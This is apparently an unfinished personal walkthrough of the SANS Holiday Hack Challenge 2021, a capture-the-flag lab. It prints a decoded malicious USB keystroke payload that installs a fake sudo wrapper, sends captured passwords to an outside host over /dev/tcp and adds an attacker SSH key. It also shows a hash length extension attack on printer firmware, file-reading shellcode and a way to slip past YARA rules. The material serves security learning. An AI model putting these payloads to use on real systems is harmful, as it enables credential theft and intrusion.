



# KringleCon 4: Calling Birds (SANS Holiday Hack Challenge 2021)

## Main Objectives

### 1. KringleCon Orientation
#### Difficulty
1/5

#### Description
Get your bearings at KringleCon

#### Solution
Talk to the elf on the side and follow the instructions to get a badge, WIFI adapter, and use a sample terminal.

### 2. Where in the World is Caramel Santaigo?
#### Difficulty
1/5

#### Description
Help Tangle Coalbox find a wayward elf in Santa's courtyard. Talk to Piney Sappington nearby for hints.

#### Solution
This is an OSINT challenge. Use the clues provided at each stage to determine where to investigate next. Make sure to use the Interrink system to look up possible elves, which will help you guess the elf at the end.

### 3. Thaw Frost Tower's Entrance
#### Difficulty
2/5

#### Description
Turn up the heat to defrost the entrance to Frost Tower. Click on the Items tab in your badge to find a link to the Wifi Dongle's CLI interface. Talk to Greasy Gopherguts outside the tower for tips.

#### Solution
Once next to Grimy McTrolkins, start up the WiFi dongle CLI using the item picked up in objective 1. Run the `iwlist` command to see the name of the network:

```shell
elf@79b89c516e1b:~$ iwlist scan
wlan0     Scan completed :
          Cell 01 - Address: 02:4A:46:68:69:21
                    Frequency:5.2 GHz (Channel 40)
                    Quality=48/70  Signal level=-62 dBm  
                    Encryption key:off
                    Bit Rates:400 Mb/s
                    ESSID:"FROST-Nidus-Setup"
```

Use the `iwconfig` command to connect to the network:

```shell
elf@79b89c516e1b:~$ iwconfig wlan0 essid "FROST-Nidus-Setup"
** New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup
(The setup is compatible with the 'curl' utility)
```

Do as it says and use `curl` to complete the setup:

```shell
elf@79b89c516e1b:~$ curl http://nidus-setup:8080/
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat Setup

◈──────────────────────────────────────────────────────────────────────────────◈

WARNING Your Nidus Thermostat is not currently configured! Access to this
device is restricted until you register your thermostat » /register. Once you
have completed registration, the device will be fully activated.

In the meantime, Due to North Pole Health and Safety regulations
42 N.P.H.S 2600(h)(0) - frostbite protection, you may adjust the temperature.

API

The API for your Nidus Thermostat is located at http://nidus-setup:8080/apidoc
```

While the thermostat isn't configured, it actually doesn't matter due to North Pole Health and Safety regulations, meaning we can bypass the registration and look for the appropriate endpoint with the docs:

```shell
elf@79b89c516e1b:~$ curl http://nidus-setup:8080/apidoc
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat API

◈──────────────────────────────────────────────────────────────────────────────◈

The API endpoints are accessed via:

http://nidus-setup:8080/api/<endpoint>

Utilize a GET request to query information; for example, you can check the
temperatures set on your cooler with:

curl -XGET http://nidus-setup:8080/api/cooler

Utilize a POST request with a JSON payload to configuration information; for
example, you can change the temperature on your cooler using:

curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -40}' \
  http://nidus-setup:8080/api/cooler


● WARNING: DO NOT SET THE TEMPERATURE ABOVE 0! That might melt important furniture

Available endpoints

┌─────────────────────────────┬────────────────────────────────┐
│ Path                        │ Available without registering? │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/cooler                 │ Yes                            │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/hot-ice-tank           │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/snow-shower            │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/melted-ice-maker       │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/frozen-cocoa-dispenser │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/toilet-seat-cooler     │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/server-room-warmer     │ No                             │ 
└─────────────────────────────┴────────────────────────────────┘
```

The first endpoint is available without registration so try that first. In the previous output, it shows an example of using this endpoint and even a warning of what happens if we use a certain value (i.e., one that will thaw the ice):

```shell
elf@79b89c516e1b:~$ curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": 1}' \
  http://nidus-setup:8080/api/cooler
{
  "temperature": 0.7,
  "humidity": 74.16,
  "wind": 7.06,
  "windchill": -1.61,
  "WARNING": "ICE MELT DETECTED!"
}
```

### 4. Slot Machine Investigation
#### Difficulty
2/5

#### Description
Test the security of Jack Frost's [slot machines](https://slots.jackfrosttower.com/). What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.

#### Solution
Open up the slot machines in Firefox and spin once with the Network tab in developer tools opened. Click on the POST request that is issued on a spin and select "Edit and resend". Scroll down to look at what is being sent in the request as it is vulnerable to parameter tampering. See what happens when you try other values of the `betamount`, `numline`, and `cpl` parameters. Both `betamount` and `numline` have validation on them, but `cpl` doesn't. If you play around with this and the responses you get back, you will notice that this affects the amount your credits are changed by, so making it negative means losses are wins and if you make it a high enough number, you will exceed the mentioned threshold. Then, it's simply a matter of looking at the response to find the phrase needed to complete the objective.

### 5. Strange USB Device
#### Difficulty
2/5

#### Description
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

#### Solution
Use the provided file in the current directory to analyze the binary that's on the USB, keeping in mind the hint about SSH keys:

```shell                              
elf@64d27a2270ff:~$ ./mallard.py -f /mnt/USBDEVICE/inject.bin                                  
ENTER                                                                                          
DELAY 1000                                                                                     
GUI SPACE                                                                                      
DELAY 500                                                                                      
STRING terminal                                                                                
ENTER                                                                                          
DELAY 500
GUI -
GUI -
GUI -
GUI -
GUI -
STRING  /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@ 
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

Take a look at the command that looks like it contains a reversed SSH key and is decoding base64:
```shell
elf@64d27a2270ff:~$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

Bingo - it's ickymcgoop!

### 6. Shellcode Primer
#### Difficulty
3/5

#### Description
Complete the [Shellcode Primer](https://tracer.kringlecastle.com/) in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.

#### Solution

The first 10 are warmup exercises to get exposure to writing shell code &ndash; keep this [reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) open. In the 11th, you have to figure it all out on your own:

```
; Get a reference to the string
call getfile
db '/var/northpolesecrets.txt',0
getfile:
pop rdi

; Call sys_open
mov rax,2
mov rsi,0
mov rdx,0

syscall

; Call sys_read on the file handle and read it into rsp
mov rdi,rax
mov rsi,rsp
mov rax,0
mov rdx,150
syscall

; Call sys_write to write the contents from rsp to stdout (1)
mov rax,1
mov rdi,1
mov rsi,rsp
mov rdx,150
syscall

; Call sys_exit
mov rax,60
mov rdi,0
syscall
```

After completing this, you see what we were after:
>"Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community."

...and apparently we could have cheated by putting `?cheat` in the URL, which yields the official solution:

```
; TODO: Get a reference to this
call bottom
db '/var/northpolesecrets.txt',0
bottom:

; TODO: Call sys_open
mov rax, 2 ; syscall (sys_open)
pop rdi ; filename
mov rsi, 0
mov rdx, 0
syscall

; TODO: Call sys_read on the file handle and read it into rsp
mov rdi, rax ; handle
mov rax, 0 ; syscall (sys_read)
mov rsi, rsp ; buffer
mov rdx, 138 ; length
syscall

; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax ; length
mov rax, 1 ; syscall (sys_read)
mov rdi, 1 ; handle (stdout)
mov rsi, rsp ; buffer
syscall

; TODO: Call sys_exit
mov rax, 60
mov rdi, 0
syscall
```

### 7. Printer Exploitation
#### Difficulty
4/5

#### Description
Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

#### Solution

The hints from Ruby Cyster point toward using a [hash extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) on the firmware updating functionality that the printer exposes in the web interface. If you download the current firmware from the [Kringle Castle printer](https://printer.kringlecastle.com/), it looks like this:

```
{
  "firmware":"UEsD...AAA==",
  "signature":"2bab...dc97",
  "secret_length":16,
  "algorithm":"SHA256"
}
```

According to the hash extension article that Ruby provides, "An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data." This matches what we have, and Ruby told us that if we provide multiple files of the same type, only the last will be executed, so we want to append something.

First, we need to figure out what kind of file we need. Pass the `firmware` through a base64 decoder and look at the file type (this can be done in CyberChef). It's a PKZIP. Note that you will need to save this as a `firmware.zip` to add to it later.

Create a bash script with the exploit &ndash; there are options for this, but let's try to take advantage of the "Dropping Files" hint:

>Files placed in `/app/lib/public/incoming` will be accessible under https://printer.kringlecastle.com/incoming/.

```shell
#!/bin/bash
cp /var/spool/printer.log /app/lib/public/incoming/<dont_make_it_easy_for_others_to_find>.log
```

Make it executable and save it as the same name as the firmware that's inside the zip (not sure if this is necessary):

```shell
chmod +x firmware.bin
```

Add this file to a new zip:

```shell
zip new.zip firmware.bin
```

Using the `hash_extender` tool (install by [cloning](https://github.com/iagox86/hash_extender) and running make &ndash; **much** easier on Linux), create the new signature and data:

```shell
./hash_extender --file firmware.zip --secret 16 --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format sha256 --append `cat test.zip | xxd -ps -c 9999999999` --append-format hex --out-data-format hex
```

Using Cyberchef, take the data as hex and pass it through the recipe "From Hex" to "To Base64" and use that as the `firmware` in the JSON. Make sure to also update the signature. Once you upload the new JSON file, it will run the exploit in the background, so you can navigate to `https://printer.kringlecastle.com/incoming/<dont_make_it_easy_for_others_to_find>.log` and view the file in question:

```
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

The last entry completes the objective.

### 8. Kerberoasting on an Open Fire
#### Difficulty
5/5

#### Description
Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints.

#### Solution


### 9. Splunk!
#### Difficulty
3/5

#### Description
Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you when when you complete the analysis?

#### Solution

There are 8 tasks to solve in order to complete the objective:

##### Task 1
Capture the commands Eddie ran most often, starting with git. Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.

Using this query, the answer is `git status`:
```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational CommandLine="git*" EventCode=1
| stats count by CommandLine | sort count desc
```

##### Task 2
Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo. The correct one!

This can be completed by just looking through the results from the previous command: `git@github.com:elfnp3/partnerapi.git`.

##### Task 3

The 'partnerapi' project that Eddie worked on uses Docker. Gather the full docker command line that Eddie used to start the 'partnerapi' project on his workstation.

Modify the query from task 1 to look for Docker commands:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational CommandLine="docker*" EventCode=1
| stats count by CommandLine | sort count desc
```

The answer is `docker compose up`.

## Side Quests
These are completed at Cranberry Pi terminals throughout the game typically next to elves who introduce the task and can provide hints to the main objectives in exchange for helping them with these.

### Noel Boetie - Logic Munchers
Select all True statements using various logic operations including logical AND/OR, XOR, and bitwise operations (like shifting left/right).

### Fitzy Shortstack - Yara Analysis
1. Use `ls` to identify the executable that we need to run.
2. Try to execute it and see the yara rule that prevents it.
3. View the yara rule in the files provided (repeat step 1 to find if needed).
4. Open the executable in vim.
5. Enter hex editing mode with xxd: `:%!xxd`.
6. Set up highlighting to better see what you are editing: `:set ft=xxd`.
7. Replace the content that is getting flagged by the yara rule with 0s in the hex.
8. Convert back to binary: `:%!xxd -r`
9. Repeat steps 1-9 to identify everything that needs to be addressed (see rules 135, 1056, then 1732).
10. Run the executable successfully.
    ```shell
    snowball2@f4e7d09d4e01:~$ ./the_critical_elf_app 
    Machine Running.. 
    Toy Levels: Very Merry, Terry
    Naughty/Nice Blockchain Assessment: Untampered
    Candy Sweetness Gauge: Exceedingly Sugarlicious
    Elf Jolliness Quotient: 4a6f6c6c7920456e6f7567682c204f76657274696d6520417070726f766564
    ```

### Ribb Bonbowford - Elf Code Python
Solve mini-puzzles using Python commands to help an elf complete his quests.

### Piney Sappington - Exif Metadata
Use `exiftool` on each of the documents in the current directory in the Cranberry Pi terminal to find the one last modified by Jack Frost. Make sure to talk to Piney Sappington again for tips on Tangle Coalbox's challenge.

### Tinsel Upatree - Strace Ltrace Retrace
The goal is to run the `make_the_candy` executable, but unfortunately there's something missing. First, use `ltrace` to see what configuration file we are missing:

```shell
kotton_kandy_co@93e00cedd462:~$ ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0
puts("Unable to open configuration fil"...Unable to open configuration file.
)               = 35
+++ exited (status 1) +++
```

Create the `registration.json` file with anything inside it and then use `ltrace` again to see what it is looking for in particular:

```shell
kotton_kandy_co@59f98eb83d05:~$ ltrace ./make_the_candy 
fopen("registration.json", "r")                           = 0x55c116f32260
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = 2
strstr("{\n", "Registration")                             = nil
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = 25
strstr("    "Registration": true\n", "Registration")      = "Registration": true\n"
strchr("Registration": true\n", ':')                      = ": true\n"
strstr(": true\n", "True")                                = nil
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = 2
strstr("}\n", "Registration")                             = nil
getline(0x7ffeb07abe10, 0x7ffeb07abe18, 0x55c116f32260, 0x7ffeb07abe18) = -1
puts("Unregistered - Exiting."Unregistered - Exiting.
)                           = 24
+++ exited (status 1) +++
```

In the above, you can see it needs a key `Registration` with value `True` (as a string, not a Boolean).

### Grody Goiterson - Frost Tower Elevator
Solve a mini-puzzle with 6 possible logic gates to get all lights at the bottom light up.




### Jewel Loggins - IPv6 Sandbox
With access to one machine, find the password that is on another machine in the network. Helpful commands with IPv6 addresses can be found [here](https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f).

First, use `ping6` to find local addresses in the network segment. This hits the local hosts and routers using multicast addresses:



Use `nmap` on each of the IPv6 addresses in the previous result:



Using `curl` on the machine with port 80 open provides another clue:


Use `netcat` to connect to the other port on that machine as indicated in the above result:

```shell
elf@c0bc92272fcf:~$ netcat -6 fe80::42:c0ff:fea8:a002%eth0 9000                               
PieceOnEarth
```

### Chimney Scissorsticks - Santa's Holiday Hero
This is a two player game requiring the buttons to be pressed in time with the music with each player taking care of their side. In order to solve this, you have to enable single-player mode and score more than 80%. To enable single player mode, access the game by creating a room and then look at the network tab. By investigating the request made to the server, you will see that a cookie is being passed, which determines the mode. Go to the "Storage" tab in the Firefox devtools or Application -> Storage in Chrome to edit this cookie:

```shell
HOHOHO: %7B%22single_player%22%3Atrue%7D
```

This isn't enough to win though because it just makes it possible for one side to be controlled and start the game with a single player. The elf mentions that **two** client-side values have to be changed, one of which is passed to the server (the cookie). So something else needs to be tampered with...

Right click to inspect the game itself (not the full web page). Take a look at the JavaScript behind the game &ndash; any interesting variables? Navigate to the "Console" tab and set "single_player = true" to have a computer agent join. Then, play the game.

Make sure to talk to Chimney Scissorsticks again to get tips for the Shellcode Primer objective.


# TODO: Remaining Challenges on Santa's side
### Eve Snowshoes - HoHo ... No
(Santa's Office) --> needs to be solved to help objective 8 "Kereboasting" which is rated 5/5 --> save for later

# TODO: Remaining Challenges on JF's side
### Noxious O. D'Or - IMDS Exploration
(Jack's bathroom)

### Ingreta Tude - Frost Tower Website Checkup
(Jack's studio) --> this might be objective 12

### Objective 13 is on the roof of the Frost Tower